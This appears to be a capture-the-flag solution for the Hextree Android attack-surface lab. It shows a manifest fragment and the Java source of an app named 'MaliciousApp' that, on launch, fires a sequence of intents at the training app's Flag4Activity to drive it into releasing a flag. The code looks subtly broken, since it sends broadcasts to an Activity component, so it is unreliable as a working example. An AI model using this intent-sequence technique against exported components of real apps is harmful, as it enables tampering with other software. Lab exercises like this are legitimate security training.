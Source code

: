 ```markdown
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.MaliciousApp">
        <activity
            android:name=".MainActivity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```

```java
package com.example.maliciousapp;

import android.app.Activity;
import android.content.ComponentName;
import android.content.Context;
import android.content.Intent;
import android.os.Bundle;
import android.util.Log;

public class MainActivity extends Activity {

    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";
    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";

    private static final String PREPARE_ACTION = "PREPARE_ACTION";
    private static final String BUILD_ACTION = "BUILD_ACTION";
    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        sendIntent(PREPARE_ACTION);
        sendIntent(BUILD_ACTION);
        sendIntent(GET_FLAG_ACTION);
        sendIntent("TRIGGER_FLAG"); // Any intent after GET_FLAG

        finish(); // Close the malicious activity
    }

    private void sendIntent(String action) {
        Intent intent = new Intent();
        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        intent.setAction(action);
        sendBroadcast(intent);
        Log.d("MaliciousApp", "Sent intent: " + action);
    }
}
```
